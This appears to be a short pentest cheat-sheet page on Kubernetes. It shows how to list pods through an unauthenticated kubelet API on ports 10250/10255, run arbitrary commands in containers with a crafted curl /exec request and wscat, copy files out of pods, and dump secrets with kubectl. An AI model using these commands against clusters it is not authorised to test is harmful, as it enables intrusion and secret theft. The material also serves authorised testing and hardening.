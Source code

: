 ```yaml
---
title: "Kubernetes"
description: "Check Kubernetes API and execute commands"
date: 23/11/2020
categories:
 - Misc
tags:
 - docker
 - kubernetes
---
```



## API

The Kubernetes API exposes the ports `10250` and `10255` (HTTP read-only).
This API can be used to interact with the Kubernetes engine which basically
give us the right to do anything you desire unauthenticated.


### List pods

To confirm that the host is running Docker you can make a GET requests to `/pods`:

```
https://<host>:<port>/pods
```

```json
{"kind":"PodList","apiVersion":"v1","metadata":{},"items":[{"metadata":{"name":"dind-sgz8n","generateName":"dind-","namespace":"default","selfLink":"/api/v1/namespaces/default/pods/dind-sgz8n",`...}],"qosClass":"BestEffort"}}]}
```


### Execute commands

With the above information it's possible to send requests to the API to execute
commands:

```bash
$ curl --insecure -v -H "W-Stream-Protocol-Version: v2.channel.k8s.io" -H "X-Stream-Protocol-Version: channel.k8s.io" -H "Connection: upgrade" -H "Upgrade: SPDY/3.1" -X POST "https://<host>:<port>/exec/<namespace>/<pod_name>/<container_name>?command=<cmd>&input=1&output=1&tty=1"
```

In the response, there is a `Location` header to create a WebSocket connection:

```bash
$ wscat -c "https://<host>:<port>/<location_header>" --no-check
```


## Useful commands

#### Kubernetes version

```bash
kubectl version
```

#### Start a pod

```bash
kubectl run k8s-2-test -ti --rm --image=debian --generator=run-pod/v1
```

#### Attach to an existing pod

```bash
kubectl exec -it k8s-2-test -- /bin/bash
```

#### Connect to an existing connection

```bash
kubectl attach k8s-1-test -c k8s-1-test -i -t
```

#### Copy a file from a pod to the local machine

```bash
kubectl cp default/k8s-1-test:{FILE} ./{FILE_DEST}
```

#### Print services

```bash
kubectl get services (-o wide)
```

#### Print pods

```bash
kubectl get pods -o json
kubectl get pods -o wide
kubectl get pods -o wide | sed -e 's/\s\+/ /g' | cut -f6 -d " "
```

#### Print secrets

```bash
kubectl get secrets -o yaml
```
